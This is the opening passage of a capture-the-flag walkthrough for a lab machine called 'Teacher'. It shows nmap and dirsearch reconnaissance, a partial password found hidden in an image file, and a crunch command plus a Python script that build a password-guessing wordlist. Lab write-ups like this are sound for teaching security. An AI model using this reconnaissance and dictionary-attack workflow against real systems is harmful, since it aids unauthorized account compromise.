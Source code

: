 ## ------------>> Teacher <<----------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.153 -p-
---------

    Nmap scan report for 10.10.10.153
    Host is up (0.19s latency).
    Not shown: 65530 closed ports
    PORT      STATE    SERVICE         VERSION
    80/tcp    open     http            Apache httpd 2.4.25 ((Debian))
    |_http-server-header: Apache/2.4.25 (Debian)
    |_http-title: Blackhat highschool
    4494/tcp  filtered unknown
    6629/tcp  filtered nexgen-aux
    9209/tcp  filtered almobile-system
    38131/tcp filtered unknown

// Navigating to http://10.10.10.153/ , present us with a Highschool website

![Image 1]()

// Next we will use dirsearch to find directories or files on the website

    $python3 dirsearch.py -u http://10.10.10.153/ -t 100 
-----

    ...
    [06:46:36] 301 -  312B  - /fonts  ->  http://10.10.10.153/fonts/
    [06:46:36] 200 -    8KB - /gallery.html
    [06:46:37] 301 -  313B  - /images  ->  http://10.10.10.153/images/
    [06:46:37] 200 -   15KB - /images/
    [06:46:37] 200 -    8KB - /index.html
    [06:46:37] 301 -  317B  - /javascript  ->  http://10.10.10.153/javascript/
    [06:46:37] 200 -    1KB - /js/
    [06:46:38] 200 -  626B  - /manual/index.html
    [06:46:38] 301 -  313B  - /manual  ->  http://10.10.10.153/manual/
    [06:46:39] 301 -  313B  - /moodle  ->  http://10.10.10.153/moodle/
    ...

// Navigating to http://10.10.10.153/images/ we can see all the website photos, exept one - '5.png'

![Image 2]()

// When clicking this photo we can see that photo cannot be open due to error in the photo

![Image 3]()

// When checking the response to with 'curl' we get some information

    $ curl -i http://10.10.10.153/images/5.png
-------

    HTTP/1.1 200 OK
    Date: Thu, 26 Aug 2021 11:03:09 GMT
    Server: Apache/2.4.25 (Debian)
    Last-Modified: Wed, 27 Jun 2018 01:43:21 GMT
    ETag: "c8-56f95bd633644"
    Accept-Ranges: bytes
    Content-Length: 200
    Content-Type: image/png

    Hi Servicedesk,

    I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

    Could you guys figure out what the last charachter is, or just reset it?

    Thanks,
    Giovanni

// Great!, we have partly password

// Next part its to complete the missing part of the password([Dictionary Attack](https://searchsecurity.techtarget.com/definition/dictionary-attack)), since we dont know what it is

// I come up with idea to combine [Crunch](https://tools.kali.org/password-attacks/crunch) password list maker tool and Python

// First we will make an password extention txt file with crunch(i limited from 1 to 3 characters)

    $ crunch 1 3 'abcdefghijklmnopqrstuvwxyz1234567890ls%^&*()_+-=@{}[]\/.,`~|#' -o pass_extention.txt

// Next i will make a little python script till 100000 passwords that will 

// add the extention from the extantion file to the existing pass (Th4C00lTheacha)

// !! NOTE !! the script work only for Teacher machine

    f2 = open("combined_pass.txt", "x")
    f = open("pass_extention.txt", "r")

    x = 1
    d = 100000

    while d > x:
       x +=1
       line1 = f.readline(x)
       pass1 = 'Th4C00lTheacha'
       combined = pass1 + line1

       f2.write(combined)


    f.close()
    f2.close()

// Now we got 'combined_pass.txt' passwords file




